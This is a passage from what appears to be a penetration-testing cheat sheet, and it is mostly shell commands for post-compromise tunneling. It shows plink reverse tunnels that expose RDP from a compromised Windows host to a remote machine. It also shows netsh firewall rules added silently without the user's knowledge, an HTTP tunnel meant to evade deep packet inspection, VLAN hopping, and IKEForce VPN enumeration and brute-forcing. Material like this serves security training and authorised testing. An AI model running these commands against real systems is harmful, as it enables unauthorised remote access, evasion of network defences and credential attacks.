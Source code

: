     *   Tunnel on port 22

        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    *   Port 22 blocked? Try port 80? or 443?

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

*   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)

    *   Windows machine add required firewall rules without prompting the user

    *   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    *   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    *   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    *   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    *   Start the http tunnel client

        `httptunnel_client.exe`

    *   Create HTTP reverse shell by connecting to localhost port 3000

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

*   VLAN Hopping

    *   <div class="highlight highlight-source-shell">

        <pre>git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh</pre>

        </div>

*   VPN Hacking

    *   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`

    *   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    *   Use IKEForce to enumerate or dictionary attack VPN servers:

        `pip install pyip`

        `git clone https://github.com/SpiderLabs/ikeforce.git`

        Perform IKE VPN enumeration with IKEForce:

        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic`

        Bruteforce IKE VPN using IKEForce:
